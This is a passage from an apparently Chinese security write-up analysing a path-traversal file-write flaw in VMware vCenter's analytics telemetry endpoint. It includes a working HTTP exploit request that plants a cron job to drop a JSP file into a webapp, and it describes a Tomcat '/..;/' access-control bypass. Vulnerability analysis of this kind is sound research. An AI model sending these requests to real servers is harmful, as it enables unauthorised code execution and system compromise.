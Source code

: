 随后调用 `LogTelemetryService` 类 `processTelemetry` 方法，利用 log4j 写日志文件至 `/var/log/vmware/analytics/prod/` 目录，文件内容为 POST 请求体数据：

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205081643607.png-water_print](assets/1699407775-3366e042fb9a2ea5790c939363b6484d.svg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205081643607.png-water_print")

日志文件存储在 `/var/log/vmware/analytics/prod/_c<collector id>_i<instance name>.json`

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205081654959.png-water_print](assets/1699407775-3366e042fb9a2ea5790c939363b6484d.svg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205081654959.png-water_print")

并且因为 filename 中同时包含 collectorId 和 collectorInstanceId，所以可以在路径遍历中添加 `../` 字符，在另一个文件夹中随意创建一个文件的情况。但是，在 Linux 系统中，如下面的路径中含有不存在的文件夹，在创建文件时会报错：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>/var/log/vmware/analytics/prod/_c_i/../../../../../../tmp/POC<br>``` |

如何远程创建该临时文件内，经过可以在 `_i` 参数前加一个斜杠，目录会被创建。之后就可以通过目录拼接的形式进行文件写入。

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205081719338.png-water_print](assets/1699407775-3366e042fb9a2ea5790c939363b6484d.svg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205081719338.png-water_print")

目前已经可以控制任意文件写入，但是没有办法控制文件后缀 `.json`，对于 linux 的机器可以写入计划任务来执行写 shell 的操作：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```http<br>POST /analytics/telemetry/ph-stg/api/hyper/send?_c=&_i=/../../../../../../etc/cron.d/POC HTTP/1.1<br>Host: IP<br>Content-Type: application/json<br>Content-Length: 144<br><br>* * * * * root echo PCUgICAgICAgIG91dC5wcmludGxuKCJIZWxsb1dvcmxkIik7ICAgICAgJT4=\|base64 -d >/usr/lib/vmware-sso/vmware-sts/webapps/ROOT/hello.jsp<br>``` |

待定时任务启动后，可在 `https://localhost/idm/..;/hello.jsp` 可以访问到 shell。

(这里的`/..;/`是因为Tomcat会将`/..;/`视作`/../`，可以利用该特性绕过 vCenter 某些版本的 `rhttpproxy` 的访问限制)。

##### [](#dataappagentcontroller-%E6%BC%8F%E6%B4%9E)DataAppAgentController 漏洞

官方提供的 POC 中还涉及到一个接口：`/analytics/telemetry/ph/api/dataapp/agent`，而在新版本的代码中，已经将端点： `/dataapp/agent` 相关代码全部删除，因此确定漏洞的位置。

